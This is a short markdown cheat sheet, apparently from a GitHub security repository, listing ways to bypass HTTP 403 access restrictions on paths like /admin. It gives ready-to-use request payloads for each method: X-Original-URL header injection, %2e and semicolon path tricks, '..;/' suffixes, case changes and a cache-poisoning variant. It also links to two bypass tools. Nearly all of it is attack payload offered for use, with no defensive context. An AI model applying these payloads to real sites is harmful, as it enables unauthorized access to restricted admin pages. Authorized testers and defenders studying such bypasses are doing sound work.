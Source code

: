 # Bypass 403 (Forbidden)

1. Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. Appending **%2e** after the first slash
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) slash (/) and semicolon (;) in the URL
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/secret/. => 200
http://target.com//secret// => 200
http://target.com/./secret/.. => 200
http://target.com/;/secret => 200
http://target.com/.;/secret => 200
http://target.com//;//secret => 200
```

4. Add "..;/" after the directory name
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```


5. Try to uppercase the alphabet in the url
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/aDmIN
```

6. Via Web Cache Poisoning
```
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```

## Tools
+ Bypass-403 | Go script for bypassing 403 forbidden https://github.com/daffainfo/bypass-403
+ [[CloudFlair]] https://github.com/christophetd/CloudFlair




